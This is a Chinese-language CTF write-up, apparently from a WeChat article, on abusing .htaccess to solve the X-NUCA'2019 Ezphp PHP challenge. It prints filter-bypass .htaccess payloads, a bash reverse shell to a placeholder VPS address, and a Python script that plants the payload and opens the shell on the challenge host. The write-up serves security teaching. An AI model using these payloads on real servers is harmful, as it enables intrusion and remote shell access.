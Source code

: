 ```
AddType application/x-httpd-php .jpgphp\_value auto\_append\_file "php://filter/convert.base64-decode/resource=shell.jpg"
```

把 shell.jpg 进行 base64 解码后再包含进所有的 php 页面。

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3YwoibbgO3aiabt4hjyenKycFEvRzNuUKx1Z876LHPhiaUBEaGOEsib7MtFB2y6A/640?wx_fmt=png)

如图可以看到在 1.php 页面已经可以看到 shell.jpg 的 phpinfo 了。  

以这道题目为例子，原题是 X-NUCA'2019—Ezphp。

题目的源码为：

```
<?php    $files = scandir('./');    foreach($files as $file) {        if(is\_file($file)){            if ($file !== "index.php") {                unlink($file);            }        }    }    if(!isset($\_GET\['content'\]) || !isset($\_GET\['filename'\])) {        highlight\_file(\_\_FILE\_\_);        die();    }    $content = $\_GET\['content'\];    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {        echo "Hacker";        die();    }    $filename = $\_GET\['filename'\];    if(preg\_match("/\[^a-z\\.\]/", $filename) == 1) {        echo "Hacker";        die();    }    $files = scandir('./');    foreach($files as $file) {        if(is\_file($file)){            if ($file !== "index.php") {                unlink($file);            }        }    }    file\_put\_contents($filename, $content . "\\nHello, world");?>
```

这里前后有两个 unlink 函数，会清除该目录下除了 index.php 文件以外的所有文件。然后看到 file\_put\_contents 函数。然后对 filename 只允许存在 a-z 和.，也就是说明无法用伪协议去做了，然后 content 过滤了一些关键字。

这里就可以把. htaccess 文件包含进 index.php 文件里面，因为这里 unlink 没法删除. htaccess，然后在. htaccess 中插入恶意代码。首先包含的是：

```
php\_value auto\_prepend\_file .htaccess
```

这里看到 stristr 函数把 file 关键字过滤了，我们上面已经讲了如果去绕过了，即：

```
php\_value auto\_prepend\_fil\\ e .htaccess
```

然后后面拼接的 \\ nHello, world 绕过拼接字符这个点上面也讲过了，这里不再赘述，构造 payload 如下：

```
php\_value auto\_prepend\_fil\\ e .htaccess #<?php phpinfo();?>\\
```

把 phpinfo(); 换成如下即可反弹一个 shell。

```
system(\\'bash -c "/bin/bash -i >%26 /dev/tcp/your-vps-ip/2333 0<%261"\\');
```

一键写入文件并反弹脚本如下：

```
import requestsurl = 'http://a1ad9f70-8d0c-432f-b973-6494e65e2be6.node3.buuoj.cn/'payload = '?filename=.htaccess&content=php\_value%20auto\_prepend\_fi\\\\%0Ale%20".htaccess"\\n%23<?php system(\\'bash -c "/bin/bash -i >%26 /dev/tcp/your-vps-ip/2333 0<%261"\\');?>\\\\'url2 = url + payloadr = requests.get(url2)req = request.get(url)
```
